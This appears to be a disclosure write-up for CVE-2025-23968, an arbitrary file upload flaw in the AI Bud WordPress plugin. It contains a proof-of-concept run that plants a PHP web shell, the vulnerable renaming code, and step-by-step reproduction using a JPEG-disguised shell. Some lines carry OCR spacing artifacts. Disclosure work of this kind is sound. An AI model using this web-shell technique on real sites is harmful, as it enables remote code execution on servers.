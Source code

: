 +++
title = 'AI Bud – AI Content Generator, AI Chatbot, ChatGPT, Gemini, GPT-4o'
date = 2025-07-03T00:00:00+00:00
hideToc = true
+++
### CVE-2025-23968

The [AI Bud](https://wordpress.org/plugins/aibuddy-openai-chatgpt/) plugin exposes a REST API endpoint `/wp-json/ai-buddy/v1/wp/attachments` that allows uploading files to the WordPress media library. The endpoint’s file logic contains file renaming functionality that triggers after file type validation, and allows the attacker to rename the uploaded file to any extension (including.php) allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

A POC [cve-2025-23968.py](https://github.com/d0n601/CVE-2025-23968/blob/master/cve-2025-23968.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```
python cve-2025-23968.py https://lab 1 .hacker admin PASSWORD
Logging into: https://lab 1 .hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Executing test command: ip addr

<pre> 1 : lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00 : 00 : 00 : 00 : 00 : 00 brd 00 : 00 : 00 : 00 : 00 : 00
    inet 127. 0. 0. 1 / 8 scope host lo
        valid_lft forever preferred_lft forever
    inet 6 :: 1 / 128 scope host
        valid_lft forever preferred_lft forever
2 : eth 0 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 5 b: 34 : 2 f brd ff:ff:ff:ff:ff:ff
altname enp 0 s 3
    inet 10. 0. 2. 15 / 24 metric 100 brd 10. 0. 2. 255 scope global dynamic eth 0
        valid_lft 75700 sec preferred_lft 75700 sec
    inet 6 fd 17 : 625 c:f 037 : 2 :a 00 : 27 ff:fe 5 b: 342 f/ 64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86174 sec preferred_lft 14174 sec
    inet 6 fe 80 ::a 00 : 27 ff:fe 5 b: 342 f/ 64 scope link
        valid_lft forever preferred_lft forever
3 : eth 1 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 39 :ea:eb brd ff:ff:ff:ff:ff:ff
altname enp 0 s 8
    inet 192. 168. 56. 56 / 24 brd 192. 168. 56. 255 scope global eth 1
        valid_lft forever preferred_lft forever
    inet 6 fe 80 ::a 00 : 27 ff:fe 39 :eaeb/ 64 scope link
        valid_lft forever preferred_lft forever
4 : docker 0 : <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02 : 42 : 6 f: 4 c: 3 e:ed brd ff:ff:ff:ff:ff:ff
    inet 172. 17. 0. 1 / 16 brd 172. 17. 255. 255 scope global docker 0
        valid_lft forever preferred_lft forever
</pre>
```

## Details

The plugin registers its REST API routs in `/wp-content/plugins/aibuddy-openai-chatgpt/src/Rest.php`

Lines 250-284 register the REST route for the `/wp/attachments` endpoint. The callback function is defined as `create_attachment`:

```php
register_rest_route(
    $namespace,
    '/wp/attachments',
    array(
        'methods' => 'POST',
        'permission_callback' => array( AuthGate::class, 'authorized'
    ),
        'callback' => array( $this, 'create_attachment' ),
    'args' => array(
    'title' => array(
    'required' => true,
    'type' => 'string',
    ),
    'caption' => array(
    'required' => true,
    'type' => 'string',
    ),
    'alt' => array(
    'required' => true,
    'type' => 'string',
    ),
    'description' => array(
    'required' => true,
    'type' => 'string',
    ),
    'url' => array(
    'required' => true,
    'type' => 'string',
    ),
    'filename' => array(
    'required' => false,
    'type' => 'string',
    ),
),
```


The `create_attachment` function is defined on Line 709, and the renaming logic starts at Line 744. As seen in the snippet below, if the `$filename` parameter is specified it can be used to rename an existing attachment (unsanitized):

```php
// strip possible path from filename
$filename = basename( sanitize_text_field( $request->get_param( 'filename'
) ) );
if (! empty( $filename ) ) {
    $file = get_attached_file( $attachment_id, true );
    $dir = dirname( $file );
    $new_file = $dir. '/'. $filename;
    if ( file_exists( $new_file ) ) {
        $new_file = $dir. '/'. uniqid(). '-'. $filename;
    }
    $this->move_file( $file, $new_file );
    update_attached_file( $attachment_id, $new_file );
}
```
## Manual Reproduction

The .php Renaming Attack

1. Attacker prepares a file calledshell.jpgwith the following qualities (see example).
    1. File containsmagic bitsfor jpg `FF D8 FF E0`.
    2. File has `.jpg` extension.
    3. File contains php code for a web shell.
2. The attacker hostsshell.jpgon a server they control (like Github).
3. The attacker sends a POST request to `/wp-json/ai-buddy/v1/wp/attachments` with:
    1.url: the URL toshell.jpg
    2.filename:shell.php
4. The attacker accesses `/wp-content/uploads/YEAR/MONTH/shell.php` and executes arbitrary
    PHP code.


